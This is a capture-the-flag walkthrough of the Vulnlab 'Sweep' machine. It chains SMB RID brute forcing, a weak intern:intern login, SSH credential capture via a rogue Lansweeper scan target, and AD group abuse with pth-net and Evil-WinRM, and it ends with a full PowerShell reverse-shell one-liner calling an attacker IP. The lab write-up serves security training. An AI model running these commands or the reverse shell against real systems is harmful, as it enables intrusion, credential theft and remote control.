## Summary

The box my our man `Yeeb` started with enumeration of port `81/TCP` which is used by the `Lansweeper` on-premise solution. Using an enabled `Guest account` for enumerating `SMB` shows read permissions on `IPC$` which leads to `RID Brute Forcing`. Finding a new username called `Intern` grants access to the `Lansweeper dashboard` by using the `account name` as `password` (`intern:intern`). By configuring a new `scan target` and pointing it to the `attacker box` and mapping the `svc_inventory_lnx` credentials to it, brings up the possibility to `sniff` the `SSH credentials` with tools like `fakessh` or `ssh-mitm`. As next step the `Active Directory` can be dumped by using the newly gathered credentials of `svc_inventory_lnx` and `bloodhound-python.` This shows the group permissions of `svc_inventory_lnx` which one of them is `LANSWEEPER DISCOVERY`. Members of this group have `GenericAll` permissions on `LANSWEEPER ADMINS` and member of this group at last can access the box by creating session using `PSRemote Connection`. As next steps the user `svc_inventory_lnx` can be added to the `LANSWEEPER ADMINS` group by using `pth-toolkit` or `BloodyAD`. After doing so `Evil-WinRM` can be used to login and grabbing the `user.txt`. Heading back to the `Lansweeper dashboard` and logging in as `svc_inventory_lnx` grant the privilege to `Access Deployment` and again `Access Scanning Credentials`. First it is necessary to create a new credential mapping to a `Windows Computer` for `sweep\inventory` on `Inventory Windows`. Next a `test package` can be created which executes a `custom command`. By putting a `payload of choice` in there, `code execution` as `nt authority\system` is possible.

## Table of Contents

- [Summary](#summary)
- [Table of Contents](#table-of-contents)
- [Reconnaissance](#reconnaissance)
  - [Port Scanning](#port-scanning)
  - [Enumeration of Port 81/TCP](#enumeration-of-port-81tcp)
  - [SMB Enumeration](#smb-enumeration)
  - [RID Brute Forcing](#rid-brute-forcing)
- [Accessing Lansweeper](#accessing-lansweeper)
- [Active Directory Enumeration](#active-directory-enumeration)
- [Foothold](#foothold)
  - [SSH Credential Sniffing](#ssh-credential-sniffing)
  - [Enable Remote Access](#enable-remote-access)
  - [Updating Group Memberships](#updating-group-memberships)
- [user.txt](#usertxt)
- [Privilege Escalation](#privilege-escalation)
- [root.txt](#roottxt)
- [Post Exploitation](#post-exploitation)

## Reconnaissance

### Port Scanning

The ports were already provided by `xct`.

- [https://wiki.vulnlab.com/guidance/medium/sweep](https://wiki.vulnlab.com/guidance/medium/sweep)

```c
53/tcp   open  domain
81/tcp   open  hosts2-ns
82/tcp   open  xfer
88/tcp   open  kerberos-sec
135/tcp  open  msrpc
139/tcp  open  netbios-ssn
389/tcp  open  ldap
445/tcp  open  microsoft-ds
464/tcp  open  kpasswd5
593/tcp  open  http-rpc-epmap
636/tcp  open  ldapssl
3268/tcp open  globalcatLDAP
3269/tcp open  globalcatLDAPssl
3389/tcp open  ms-wbt-server
5357/tcp open  wsdapi
```

### Enumeration of Port 81/TCP

Since we didn't know what was running on port `81/TCP`, we accessed it by using `nc`.

```c
┌──(kali㉿kali)-[~]
└─$ nc 10.10.118.121 81
help
HTTP/1.1 400 Bad Request
Content-Type: text/html; charset=us-ascii
Server: Microsoft-HTTPAPI/2.0
Date: Thu, 29 Feb 2024 18:04:03 GMT
Connection: close
Content-Length: 326

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN""http://www.w3.org/TR/html4/strict.dtd">
<HTML><HEAD><TITLE>Bad Request</TITLE>
<META HTTP-EQUIV="Content-Type" Content="text/html; charset=us-ascii"></HEAD>
<BODY><h2>Bad Request - Invalid Verb</h2>
<hr><p>HTTP Error 400. The request verb is invalid.</p>
</BODY></HTML>
```

Accessing the `url` revealed a `/login.aspx`.

```c
┌──(kali㉿kali)-[~]
└─$ curl http://sweep.vl:81

<html><head><title>Object moved</title></head><body>
<h2>Object moved to <a href="/login.aspx">here</a>.</h2>
</body></html>
```

- [http://sweep.vl:81/login.aspx](http://sweep.vl:81/login.aspx)

### SMB Enumeration

In the meanwhile we found an active `Guest` account which we used for enumerating the `SMB share`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.10.118.121 -u 'Guest' -p '' --shares
SMB         10.10.118.121   445    INVENTORY        [*] Windows 10.0 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False)
SMB         10.10.118.121   445    INVENTORY        [+] sweep.vl\Guest: 
SMB         10.10.118.121   445    INVENTORY        [*] Enumerated shares
SMB         10.10.118.121   445    INVENTORY        Share           Permissions     Remark
SMB         10.10.118.121   445    INVENTORY        -----           -----------     ------
SMB         10.10.118.121   445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.118.121   445    INVENTORY        C$                              Default share
SMB         10.10.118.121   445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.118.121   445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.118.121   445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.10.118.121   445    INVENTORY        NETLOGON                        Logon server share 
SMB         10.10.118.121   445    INVENTORY        SYSVOL                          Logon server share
```

### RID Brute Forcing

Since the files contained nothing of interest but we were able to read `IPC$` we used `RID Brute Forcing` to find more `users`.

```c
┌──(kali㉿kali)-[~]
└─$ netexec smb 10.10.118.121 -u 'Guest' -p '' --shares --rid-brute
SMB         10.10.118.121   445    INVENTORY        [*] Windows 10.0 Build 20348 x64 (name:INVENTORY) (domain:sweep.vl) (signing:True) (SMBv1:False)
SMB         10.10.118.121   445    INVENTORY        [+] sweep.vl\Guest: 
SMB         10.10.118.121   445    INVENTORY        [*] Enumerated shares
SMB         10.10.118.121   445    INVENTORY        Share           Permissions     Remark
SMB         10.10.118.121   445    INVENTORY        -----           -----------     ------
SMB         10.10.118.121   445    INVENTORY        ADMIN$                          Remote Admin
SMB         10.10.118.121   445    INVENTORY        C$                              Default share
SMB         10.10.118.121   445    INVENTORY        DefaultPackageShare$ READ            Lansweeper PackageShare
SMB         10.10.118.121   445    INVENTORY        IPC$            READ            Remote IPC
SMB         10.10.118.121   445    INVENTORY        Lansweeper$                     Lansweeper Actions
SMB         10.10.118.121   445    INVENTORY        NETLOGON                        Logon server share 
SMB         10.10.118.121   445    INVENTORY        SYSVOL                          Logon server share 
SMB         10.10.118.121   445    INVENTORY        498: SWEEP\Enterprise Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        500: SWEEP\Administrator (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        501: SWEEP\Guest (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        502: SWEEP\krbtgt (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        512: SWEEP\Domain Admins (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        513: SWEEP\Domain Users (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        514: SWEEP\Domain Guests (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        515: SWEEP\Domain Computers (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        516: SWEEP\Domain Controllers (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        517: SWEEP\Cert Publishers (SidTypeAlias)
SMB         10.10.118.121   445    INVENTORY        518: SWEEP\Schema Admins (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        519: SWEEP\Enterprise Admins (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        520: SWEEP\Group Policy Creator Owners (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        521: SWEEP\Read-only Domain Controllers (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        522: SWEEP\Cloneable Domain Controllers (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        525: SWEEP\Protected Users (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        526: SWEEP\Key Admins (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        527: SWEEP\Enterprise Key Admins (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        553: SWEEP\RAS and IAS Servers (SidTypeAlias)
SMB         10.10.118.121   445    INVENTORY        571: SWEEP\Allowed RODC Password Replication Group (SidTypeAlias)
SMB         10.10.118.121   445    INVENTORY        572: SWEEP\Denied RODC Password Replication Group (SidTypeAlias)
SMB         10.10.118.121   445    INVENTORY        1000: SWEEP\INVENTORY$ (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1101: SWEEP\DnsAdmins (SidTypeAlias)
SMB         10.10.118.121   445    INVENTORY        1102: SWEEP\DnsUpdateProxy (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        1103: SWEEP\Lansweeper Admins (SidTypeGroup)
SMB         10.10.118.121   445    INVENTORY        1113: SWEEP\jgre808 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1114: SWEEP\bcla614 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1115: SWEEP\hmar648 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1116: SWEEP\jgar931 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1117: SWEEP\fcla801 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1118: SWEEP\jwil197 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1119: SWEEP\grob171 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1120: SWEEP\fdav736 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1121: SWEEP\jsmi791 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1122: SWEEP\hjoh690 (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1123: SWEEP\svc_inventory_win (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1124: SWEEP\svc_inventory_lnx (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        1125: SWEEP\intern (SidTypeUser)
SMB         10.10.118.121   445    INVENTORY        3101: SWEEP\Lansweeper Discovery (SidTypeGroup)
```

A few users sticked out like the user `intern`.

## Accessing Lansweeper

With the newly found username `intern` we tested if the `username` was reused as `password`.

- [http://sweep.vl:81/Default.aspx](http://sweep.vl:81/Default.aspx)



The credentials worked when clicked on `WINDOWS LOGIN`.

| Username | Password |
| -------- | -------- |
| intern   | intern   |



While enumerating we also found a `subdomain` there.



Which we added to our `/etc/hosts` file.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sweep/files]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.10.118.121   sweep.vl
10.10.118.121   inventory.sweep.vl
```

## Active Directory Enumeration

Since it is always good to run something in the background, we started dumping the `Active Directory` by using the credentials `intern:intern` with `bloodhound-python`.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sweep/files]
└─$ bloodhound-python -d 'sweep.vl' -dc 'inventory.sweep.vl' -u 'intern' -p 'intern' -ns 10.10.118.121 -c all --zip
INFO: Found AD domain: sweep.vl
INFO: Getting TGT for user
INFO: Connecting to LDAP server: inventory.sweep.vl
INFO: Found 1 domains
INFO: Found 1 domains in the forest
INFO: Found 1 computers
INFO: Connecting to LDAP server: inventory.sweep.vl
INFO: Found 17 users
INFO: Found 54 groups
INFO: Found 2 gpos
INFO: Found 3 ous
INFO: Found 19 containers
INFO: Found 0 trusts
INFO: Starting computer enumeration with 10 workers
INFO: Querying computer: inventory.sweep.vl
INFO: Done in 00M 06S
INFO: Compressing output into 20240229140240_bloodhound.zip
```

For testing purposes and hopefully a better visibility I pulled out `ADMiner`.

- [https://github.com/Mazars-Tech/AD_Miner](https://github.com/Mazars-Tech/AD_Miner)

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sweep/files]
└─$  AD-miner -u <USERNAME> -p <PASSWORD> -cf Sweep
[+]Group : 54 | User : 17 | Container : 19 | Domain : 1 | OU : 3 | GPO : 2 | Computer : 1 | Relations : 816
[1/145] [+]Requesting : Checking if Graph Data Science neo4j plugin is installed
[+]GDS plugin not installed.
[+]Not using exploitability for paths computation.
```

We discovered a few interesting things but nothing useful in the end.





## Foothold

Back on the dashboard we created a new `scanning target` and pointed it to our local `machine`.



For the next step we `mapped` the `svc_inventory_lnx` credentials with the newly created object `IP Range`.



### SSH Credential Sniffing

First I tried to setup `ssh-mitm` but I had quite a few issues with it. So I switched to `fakessh` which worked for a few other people from our team.

- [https://github.com/fffaraz/fakessh](https://github.com/fffaraz/fakessh)

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sweep/files]
└─$ go install github.com/fffaraz/fakessh@latest
go: downloading github.com/fffaraz/fakessh v0.0.1
go: downloading golang.org/x/crypto v0.18.0
```

According to the documentation the binary required the `cap_net_bind_service=+ep` capabilities.

```c
┌──(kali㉿kali)-[/media/…/Vulnlab/Machines/Sweep/files]
└─$ sudo setcap 'cap_net_bind_service=+ep' ~/go/bin/fakessh
[sudo] password for kali:
```

After setting it up we started a new scan for our `IP Range` and got surprised with the credentials for the user `svc_inventory_lnx`.

```c
┌──(kali㉿kali)-[~/go/bin]
└─$ ./fakessh 
2024/02/29 15:45:38.879438 10.10.118.121:54123
2024/02/29 15:45:41.884270 10.10.118.121:54133
2024/02/29 15:45:41.975583 10.10.118.121:54134
2024/02/29 15:45:42.081123 10.10.118.121:54134 SSH-2.0-RebexSSH_5.0.8372.0 svc_inventory_lnx [REDACTED]
```

| Username          | Password      |
| ----------------- | ------------- |
| svc_inventory_lnx |  [REDACTED]   |

### Enable Remote Access

We determined that `svc_inventory_lnx` was a `service account` by checking his details in `BloodHound` which meant that we had to enable `Remote Access` for it to login using `WinRM`.

We checked the groups the account was member of. It showed that the user `svc_inventory_lnx` was member of `LANSWEEPER DISCOVERY` which had `GenericAll` privileges on `LANSWEEPER ADMINS`.



### Updating Group Memberships

Using the `pth-toolkit` we added the service account `svc_inventory_lnx` to the `LANSWEEPER ADMINS` group.

```c
The members of the group LANSWEEPER ADMINS@SWEEP.VL have the capability to create a PSRemote Connection with the computer INVENTORY.SWEEP.VL.

PS Session access allows you to enter an interactive session with the target computer. If authenticating as a low privilege user, a privilege escalation may allow you to gain high privileges on the system.

Note: This edge does not guarantee privileged execution.
```

```c
┌──(kali㉿kali)-[~]
└─$ pth-net rpc group addmem "LANSWEEPER ADMINS" svc_inventory_lnx -U sweep.vl/svc_inventory_lnx -S 10.10.118.121
Password for [SWEEP.VL\svc_inventory_lnx]:
E_md4hash wrapper called.
```

This enabled `Remote Access` on the box for us.

```c
┌──(kali㉿kali)-[~]
└─$ evil-winrm -i sweep.vl -u 'svc_inventory_lnx' -p 'REDACTED' 

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc_inventory_lnx\Documents>
```

## user.txt

```c
*Evil-WinRM* PS C:\> type user.txt
VL{REDACTED}
```

## Privilege Escalation

We revisited the `Lansweeper Login Form` and this time we logged in as `svc_inventory_lnx` on `inventory.sweep.vl`.

- [http://inventory.sweep.vl:81/helpdesk/Default.aspx](http://inventory.sweep.vl:81/helpdesk/Default.aspx)

Checking the permissions showed the capability to `Access Deployment` and again `Access Scanning Credentials`.



We created a new `credential mapping` and this time as `Windows Computer` for `sweep\inventory` on `Inventory Windows`.



After that we created a `test package` which had as `Action` to execute a command we controlled. In this case we pulled the `PowerShell #2` payload from `revshells.com`.

- [https://www.revshells.com/](https://www.revshells.com/)

As payload we used `PowerShell #2`.

```c
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.8.1.142',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

